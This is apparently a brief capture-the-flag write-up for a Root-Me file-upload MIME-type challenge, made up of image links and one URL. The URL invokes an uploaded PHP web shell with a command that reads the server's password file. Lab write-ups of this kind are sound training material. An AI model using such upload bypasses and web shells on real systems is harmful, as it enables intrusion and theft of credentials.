 # File upload - MIME type

![img1](img_1.png)
![img2](img_2.png)
![img3](img_3.png)

http://challenge01.root-me.org/web-serveur/ch21/galerie/upload/fmqksg11kkl309h2ec7bh7oak0//getCMD.php?cmd=cat ../../../.passwd